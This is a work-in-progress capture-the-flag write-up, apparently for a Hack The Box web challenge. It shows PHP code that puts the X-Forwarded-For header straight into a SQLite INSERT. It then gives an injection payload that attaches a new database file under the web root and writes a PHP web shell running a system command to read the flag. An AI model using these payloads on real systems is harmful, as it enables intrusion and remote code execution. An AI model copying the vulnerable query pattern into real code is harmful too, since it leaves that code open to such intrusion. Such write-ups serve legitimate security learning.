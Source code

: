 # WIP

This Write Up is a work in progress

# Notes

App code with SQLi vulnerability, but the successful injection does not leak details back to client:

```javascript
public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }

    public function subscribe($email)
    {
        $ip_address = $this->getSubscriberIP();
        return $this->database->subscribeUser($ip_address, $email);
    }
public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
```

Example injection payload, just had to POST header for /subscribe API endpoint:

```http
X-Forwarded-For: ');select * from subscribers;--
````

Final payload to attach sqlite database (creates a new file), add php code:

```sql
Stealing your flag', 'Rafiina');ATTACH DATABASE '/www/static/js/pwned.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("TEST<?php system('cat /flag*') ?>");--
```

Navigate to `challenge-server:port/static/js/pwned.php`

![run script, get flag!](images/flag.png)

HTB{inj3ct3d_th3_tru7h}